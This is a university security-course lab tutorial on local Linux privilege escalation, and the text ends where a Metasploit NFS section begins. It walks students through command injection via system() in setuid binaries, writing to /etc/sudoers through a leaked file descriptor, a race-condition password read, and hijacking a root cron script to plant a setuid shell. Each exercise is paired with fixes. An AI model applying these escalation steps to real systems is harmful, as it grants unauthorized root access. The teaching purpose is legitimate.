.. Theory documentation master file, created by
   sphinx-quickstart on Thu Jul 16 15:50:07 2020.
   You can adapt this file completely to your liking, but it should at least
   contain the root `toctree` directive.

Tutorial 1: Race conditions
===========================

.. raw:: html

   <?php
         //$path = $_SERVER['DOCUMENT_ROOT'];
         //echo $path;
         $json   = "../../_static/config.json";
         //echo $json . " ";
         $string = file_get_contents($json);
         if ($string === false) {
            //deal error
            echo "error json";
         }
         //echo $string;
         $decoded = json_decode($string, true);
         if ($decoded === null) {
            echo "error json decoded";
         }
         $visi = (strcmp($decoded["t1"],"1") === 0);
         if($visi) {
            header("location: index.php");
            echo '';
            echo " <h3 style='text-align: center;'> Still not accessible :/ </h3>";
            exit; // prevent further execution, should there be more code that follows
         }
   ?>
   <?php
         $good = (strcmp($decoded["t1s"],"1") === 0);
         if($good) {
            //nothing
            echo '';
         } else {
            echo '';
         }
   ?>

Prerequisite
------------

Download the Kali VM from this link

.. centered:: https://transvol.sgsi.ucl.ac.be/download.php?id=bf224c2c94622b90 (+- 3 Go)

| Working directory: ``~/SecurityClass/Tutorial-01``
| Connection:

============ ============
**username** **password**
============ ============
admin        nimda
============ ============

| Note that the admin user has ``sudo`` privileges and so can do
  anything on the system. Also that the admin user does not need to
  provide their password to invoke ``sudo``.

| Also note that each subsection of the tutorial has it’s own
  sub-directory with the appropriate files.

Exercise
--------

Using ``system()`` & ``SETUID`` (from lecture)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Compile the ``test.c`` file with:

.. centered:: ``gcc -o test test.c``

Observe the behaviour of the program with

.. centered:: ``./test test.c``

| See that test prints the contents of a file, here ``test.c`` as
  specified by the first argument. Also see that this is achieved using
  ``cat`` and ``system(...)``.

| Now let’s create a shell command with test

.. centered:: ``./test "test.c;/bin/sh"``

Observe that the command prompt has changed (we’re in a new ``/bin/sh``
shell). Inside this shell run the command

.. centered:: ``whoami``

| We’re still ”admin” since we were user when we ran the original
  command. Interesting, but not useful... yet. Let’s ”exit” here to get
  back to where we came from.

| Recall (from the setup) that "admin" has ``sudo`` and **does not need
  password**, let’s exploit this!

.. centered:: ``sudo ./test "test.c;/bin/sh"``
.. centered:: ``whoami``

| Now we’ve gained root access and a root shell. We had sudo already so
  this is not a big concern, but illustrates the mechanics of how to
  spawn a potentially vulnerable shell. Let’s return back from our shell
  again with "exit".

.. raw:: html

   



.. raw:: html

   

| Let’s make a copy of our test program called retest, make it owned by
  root, and have the ``SETUID`` flag set.

-  ``cp test retest``

-  ``sudo chown root:root retest``

-  ``sudo chmod 4755 retest``

Now we can see the differences between ``test`` and ``retest`` with

.. centered:: ``ls -al``

.. raw:: html

   



.. raw:: html

   

| Observe that retest has ”s” instead of ”x” for the first execution
  property and is owned by ”root root”.

| Now we can run the same basic command as before to see that retest
  behaves the same:

.. centered:: ``./retest test.c``

Now let’s recreate a shell command with ``retest``

.. centered::  ``./retest "test.c;/bin/sh"``
.. centered::  ``whoami``

.. raw:: html

   



.. raw:: html

   

| We are still admin... (but this may be useful later).

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '';
            include "../_static/solution.html";
         }
   ?>

Spam & Delay
~~~~~~~~~~~~

| The ``test.c`` program emulates the behaviour of the linux ”cat”
  command in a naive way. Let’s look at two more simple programs to do
  trivial tasks, but that may have vulnerabilities in how they achieve
  their goals.

| The ``spam.c`` code takes two arguments, the first a number and the
  second a string. This program then spams the string the number of
  times specified.

| Again we can compile this with

.. centered:: ``gcc -o spam spam.c``

And observe the behaviour with

.. centered:: ``./spam 5 SPAM``

Let’s look at the code for spam.c

.. centered:: ``cat spam.c``

❓ **Can you find a way to exploit this code to open a shell? How might you
fix the code to prevent this vulnerability?**

.. hint:: **💡 Is using** ``system()`` **and** ``echo`` **the best way to print a
   string?**

.. raw:: html

   

      

        
<b>Possible solution</b>

        
You could use <code class="docutils literal">printf()</code> (in a good way)

      

..  image:: imageTP/5.PNG
    :scale: 60%
    :align: center
    :class: sol-img

.. raw:: html

   

| The second example is a simple program (``delay.c``) to delay for a
  number of seconds (like the ”sleep” command). But it seems the
  developer may have made a poor choice in implementation.

| ❓ **Can you create the same exploit here to gain a shell? How might you
  fix the code to prevent this vulnerability?**

.. hint:: **💡 Should we pass a string through? Should we use** ``system()`` **?**

.. raw:: html

   

      

        
<b>Possible solution</b>

        
Instead of using <code class="docutils literal">system()</code>
        , we could cast the parameter into integer and directly use the  C'<code class="docutils literal">sleep()</code> function

      



.. raw:: html

   

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '';
            include "../_static/solution.html";
         }
   ?>

``execve`` exploit
~~~~~~~~~~~~~~~~~~

| Now let’s look at direct file descriptor manipulation (based on
  ``leakage.c`` from the lectures).

Examine the code of ``fedit.c`` which takes a file as an argument and
allows you to execute a shell with access to that file’s file
descriptor. We can build this with

.. centered:: ``gcc -o fedit fedit.c``

and let’s make a version for use by root

-  ``sudo cp fedit rootedit``

-  ``sudo chown root:root rootedit``

-  ``sudo chmod 4755 rootedit``

And let’s also make a copy of ``/etc/sudoers`` that still belongs to
root

.. centered:: ``sudo cp /etc/sudoers .``

Observe that sudoers is still not accessible to us

-  ``ls -lsa``

-  ``touch sudoers``

.. raw:: html

   



.. raw:: html

   

| But let’s try out rootedit

.. centered:: ``./rootedit sudoers``

.. raw:: html

   


.. raw:: html

   

| We will have the file descriptor ”fd” and then a shall. If we try to
touch sudoers in the shall we will fail

.. centered:: ``touch sudoers``

| this is because we are still ”user” as we can see with ``whoami``.

| But we can write to the file descriptor!

.. centered:: ``echo "# test" >&3``

.. raw:: html

   



.. raw:: html

   

| Now let’s exit and use sudo to check the contents of sudoers

.. centered:: ``sudo cat sudoers``

We can see that we’ve written to the sudoers file without (in theory)
ever having permission to do so. (Don’t forget to exit the sh session
back to your normal environment here.)

.. admonition:: BONUS:
   :class: admonition danger alert alert-danger alert-error

   ❓ **Create a new account on your system that does not have**
   ``sudo`` **access (no entry in** ``/etc/sudoers`` **). Use your rootedit as
   this user to give yourself** ``sudo`` **privileges.**

.. warning:: **Be careful here, you don’t want to accidentally break
   your** ``/etc/sudoers`` **file!!**

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '';
            include "../_static/solution.html";
         }
   ?>

Integer Overflows
~~~~~~~~~~~~~~~~~

Let’s revisit signedness overflow from the lecture. Look at the code for ``sign-overflow.c`` let’s compile it and test

.. centered::  ``gcc -o sign-overflow sign-overflow.c``

and run with some inputs (300, 1000, etc.)

.. hint:: **💡 Try 10 000, is that what you expect ?**

| **Can you fix this?**

.. raw:: html

   

      

        
<b>Possible solution</b>

        
We can simply use larger variable such as <code class="docutils literal">int</code> instead of <code class="docutils literal">short</code> for example

      



.. raw:: html

   

| Now that we know about this, let’s look at ``spam.c`` again. **Is
  there somewhere here that might not behave as expected?**

.. hint:: **💡 what happens if we run?**

   -  ``gcc -o spam spam.c``

   -  ``./spam 300 "Hello"``

.. caution:: **Here you may need to know about** ``Ctrl+Z`` **to get out of this!**

❓ **Also if you use** ``Ctrl+Z`` **the process still exists, we can find it’s
process ID (pid) and kill it with:**

.. centered:: ``top -b -n 1 | grep spam``

which will show the pid as the first number on the line

.. centered:: ``kill -9 <pid>``

.. raw:: html

   



.. raw:: html

   

| ❓ **Can we fix this (in addition to fixing the previous
  vulnerability)?**

.. raw:: html

   

      

        
<b>Possible solution</b>

        
You could use <code class="docutils literal">printf()</code> (in a good way)

      



.. raw:: html

   

| Now let’s look at ``mycat.c`` which attempts to fix the bad behaviour
  of ``test.c``. Observe that for efficiency this code allows the user
  to specify the ”buffer size” to read from the file. (Specifying the
  buffer size is more common in network communication, but also appears
  in Linux utilities like dd.) we can build this with

.. centered:: ``gcc -o mycat mycat.c``
.. centered:: ``./mycat mycat.c``

❓ **Does this code behave properly without specifying a buffer size?**

-  ``./mycat shortfile``

-  ``./mycat longfile``

.. raw:: html

   



.. raw:: html

   

❓ **What happens if the buffer size is specified?**

-  ``./mycat shortfile 50``

-  ``./mycat longfile 50``

❓ **Can we break this code and crash the program?**

.. hint:: **💡 What happens if we specify a buffer size of 65536?**

.. raw:: html

   



.. raw:: html

    



.. raw:: html

   

❓ **Can we fix this code and still allow the user to specify the buffer
size? What would be realistic buffer sizes to use on a modern system?
Should we change the buffer size (and allocation)?**

.. raw:: html

   

      

        
<b>Possible solution</b>

        

         

<pre>
         //short s = 100; //max buffer size
         long  s = 1024;
         if(s>100) { printf("Buffer size too large\n"); return 1; }
         </pre>

         

        

      

   

.. hint:: **💡 See bettercat.c for some possible solutions.**

.. admonition:: BONUS
   :class: admonition danger alert alert-danger alert-error

   ❓ **Find the error in** ``bettercat.c`` **and fix it.**

.. raw:: html

   

      

        
<b>Possible solution</b>

        
We have a cast from <code class="docutils literal">int</code> to <code class="docutils literal">unsigned int</code>

      

   

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '';
            include "../_static/solution.html";
         }
   ?>

Race Conditions
~~~~~~~~~~~~~~~

Let us consider the code in race.c that creates a file and saves our
secret password into it. Clearly the code is intended to keep the
password secret only for us by setting the file to read/write/execute
only for us. Let’s build this file, give it to root, and setuid it.

-  ``gcc -o race race.c``

-  ``sudo chown root:root race``

-  ``sudo chmod 4755 race``

-  ``./race``

a file ``password.txt`` has been created that we cannot read

.. centered:: ``cat password.txt``

.. raw:: html

   



.. raw:: html

   

| because we don’t heave permission.

| However, if we examine the code of ``race.c`` we see that is a time after
  the password is written and before the permissions are set. Let’s use
  a race condition to quickly read the file.

| To do this we use the ``exploit.c`` code that deletes the
  ``password.txt`` file and then tries to read it (as many times as
  specified) and output the contents.

.. centered:: ``gcc -o exploit exploit.c``

Now we can try and use the exploit to obtain the contents of
``password.txt`` before the permissions are fixed. We will need two
processes running at the same time to exploit the race condition, so in
one terminal run:

.. centered:: ``while true; do ./race; done``

.. raw:: html

   



.. raw:: html

   

| which will start to infinitely check/recreate the ``password.txt`` file.

| In another terminal run

.. centered:: ``./exploit 1000 >>result.txt``

| that will try to delete and then read the ``password.txt`` file 1000
  times.

| If we’re lucky we should see the a mixture of ”permission denied” and
  ”no such file or directory” from our exploit. Then when it finishes we
  can check the contents of ``result.txt`` and find that our password
  has been revealed (probably a number of times).

.. note:: **If the result.txt is empty, try running exploit with a larger
   argument.**

.. raw:: html

   



.. raw:: html

   

❓ **Can you fix race.c to not have this exploit?**

.. raw:: html

   

      

        
<b>Possible solution</b>

        
(From: <a class="reference external" href="http://www.cis.syr.edu/~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf"> http://www.cis.syr.edu/~wedu/Teaching/IntrCompSec/LectureNotes_New/Race_Condition.pdf </a>) 
            As said in the paper, there are many improvement that can be done such as, replacing <code class="docutils literal">stat</code> by <code class="docutils literal">fstat</code>
            in order to check the file descriptor instead of the file itself directly. Also we could use exclusive mode "x" in <code class="docutils literal">fopen</code>.
        

      

   

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '';
            include "../_static/solution.html";
         }
   ?>

Thread Race Conditions (from lecture)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Let us consider the code in ``threadrace.c`` that creates different
threads that share a common variable. The code is somewhat obfuscated to
hide what it does, but we should be able to see the behaviour described
in the lecture by using different compilation options.

.. centered::  ``gcc -pthread -o threadrace threadrace.c``
.. centered::  ``./threadrace``

.. literalinclude:: threadrace.c
   :language: c

| We expect to see the program terminate. If you run this code many
  times you may even see different behaviours (but even a bad scheduler
  will probably always let this program terminate).

| However, we suspect (from the lecture since we trust Axel) that the
  program can reach a non-termination state if the compiler optimised
  too much.

| Let’s try compiling with some different optimisation options. ``gcc``
  has many compilation optimisation options, try with:

+--------------------------------------------------------------+
|                                                              |
+=========+=========+=========+=========+=========+============+
| ``-00`` | ``-01`` | ``-02`` | ``-03`` | ``-0s`` | ``-0fast`` |
+---------+---------+---------+---------+---------+------------+

| and see which of these cause non-termination. **Are the results what
  you expect?**

.. raw:: html

   

.. centered:: ``gcc``



.. raw:: html

   

.. raw:: html

   

.. centered:: ``0race``



.. raw:: html

   

.. raw:: html

   

.. centered:: ``1race``



.. raw:: html

   

.. raw:: html

   

.. centered:: ``race2``



.. raw:: html

   

.. raw:: html

   

.. centered:: ``clangrace``



.. raw:: html

   

.. raw:: html

   

.. centered:: ``frace``

..  image:: imageTP/racec6.PNG
    :scale: 60%
    :align: center
    :class: sol-img

.. raw:: html

   

.. raw:: html

   

.. centered:: ``srace``



.. raw:: html

   

| We can also check with another compiler and see how that behaves,
  let’s try and see how clang handles this race condition:

.. centered:: ``clang -pthread -o clangrace threadrace.c``

| ❓ **What happens if you remove the asterisk on line 6 of the code (change
  from** ``*i = 0;`` **to**  ``i = 0;`` **)? Can you explain why this works?**

| ❓ **Try to simplify the code and still achieve the same race condition.
  What is the smallest example you can create that still fails to
  terminate (with the help of compiler optimisation)?**

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '';
            include "../_static/solution.html";
         }
   ?>

A bad cron task
~~~~~~~~~~~~~~~

On a unix system, a "cron task" is a task that will automatically run at
a scheduled time. These tasks are usually used to perform backups and
other recurring tasks.

The configuration os those tasks is stored in ``/etc/crontab`` and its
structure is defined this way:

::

   # ┌───────────── minute (0 - 59)
   # │ ┌───────────── hour (0 - 23)
   # │ │ ┌───────────── day of the month (1 - 31)
   # │ │ │ ┌───────────── month (1 - 12)
   # │ │ │ │ ┌───────────── day of the week (0 - 6) (Sunday=0 or 7)
   # │ │ │ │ │
   # │ │ │ │ │
   # │ │ │ │ │
   # * * * * * user-name command to be executed

So if we want to create a task ran by the user root that runs every hour
at XXh15 and is executed by root we’ll add:

.. centered:: ``15 * * * * root echo "hello world"``

| With this entry, the user root will execute "echo ’hello world’" every
  hour (at 00:15, 1:15, 2:15, 3:15, ...).

| Of course, a user can’t add an entry to be executed by user "root"
  that would be far too easy :)

| But if you inspect the already existing cron tasks, you might find one
  that’s executed by root and where a user is able to modify the
  executed file. If you’re able to modify a file that’s executed by
  root, you can actually add some code that will be executed by the user
  root.

#. Inspect the list of cron tasks and find the tasks running as root

   .. centered:: ``cat /etc/crontab``

.. raw:: html

   

.. centered:: ``srace``



.. raw:: html

   

2. Check the permissions of the files executed by these tasks

   .. centered:: ``ls -laht FILE_NAME``

.. raw:: html

   

.. centered:: ``srace``



.. raw:: html

   

3. If you find a file you can modify as a user, you’ve found a security
   breach

#. Edit this file (using vi, emacs, nano, gedit..) and add some code. A
   good idea here, could be to add code to copy the binary of a shell
   (for instance ``zsh;`` **don’t use bash**) by doing something like

   .. centered:: ``cp /bin/zsh /bin/myzsh``

   The copy of your shell will still belong to root. So to make it
   exploitable by a user, juste set the setuid flag on your copy of the
   shell by doing something like

   .. centered:: ``chmod +s /bin/myzsh``

#. The next time the cron task runs, it will execute the code you added.
   You should then have an executable shell (``/bin/myzsh``) with the
   setuid flag set

#. If you run this file, it will start a shell as root (because of the
   setuid flag)

#. You now have a shell with the root privileges :)

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '';
            include "../_static/solution.html";
         }
   ?>

Finding a Target
~~~~~~~~~~~~~~~~

We know that we can exploit the system if we can find a suitably
vulnerable program to exploit. For this we want three things:

-  An executable owned by root

-  This executable has the setuid flag set

-  We believe this executable has a vulnerablility (e.g. bad string
   sanitization, integer overflow, buffer overflow, etc.).

| So if we can find a program with these properties we should be able to
  execute some other code that we choose as the root user, and this in
  turn will allow us to access the Target.

| Let’s see if we can find such a program somewhere on the system. We
  can do this withsanitisation

.. centered:: ``find / -user root -perm /u+s -exec ls -l {} + 2>/dev/null``

.. raw:: html

   



.. raw:: html

   

| This finds any executable owned by root that has the setuid flag set
  (and the ``2>/dev/null`` ignores errors).

| Note that you should find several of these programs on a normal
  system. The next step would be to see which are vulnerable to some
  kind of vulnerability. This could be done in different ways, for
  example:

#. Reverse engineering the binary via disassembly

#. run the program through a debugger to observe the behaviour and find
   a weak point

#. analyse the source code (if available)

#. Fuzzing to try and find a flaw

| These would all take significant time and effort, but are standard
  work for a hacker or experienced security analyst.

| In future classes we’ll look at some of these approaches and how to
  build and insert exploits. For now (if there is time) you can do any
  of the following:

#. go back and do the bonus exercises

#. see if you can create an exploitable program and crash it

#. see if you can crash one of the programs you found above.

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '';
            include "../_static/solution.html";
         }
   ?>

NFS Share exploit - Metasploit
------------------------------

Introduction
~~~~~~~~~~~~

The Network File System protocol allows you to mount a system/directory
